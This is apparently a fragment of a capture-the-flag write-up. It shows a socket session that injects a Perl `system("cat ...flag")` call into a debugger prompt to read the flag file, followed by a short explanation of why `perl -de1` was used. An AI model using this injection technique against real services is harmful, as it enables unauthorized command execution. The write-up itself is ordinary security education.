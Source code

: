 ```python
In [141]: sock.send(b'system("cat /home/loveletter_pwn/flag");\n')
Out[141]: 41

In [142]: print(sock.recv(1024).decode())
1_Am_3t3rn4l_L0veR

  DB<3> 
```


**Why Perl?**
Well, Perl maybe sucks, but:
- Perl is a built in way to execute code
- in case of `perl -de1`, if we pass more arguments (for example: `very much`), It'll simply ignore it, that's why `python`, `bash`, `sh` commands won't work
















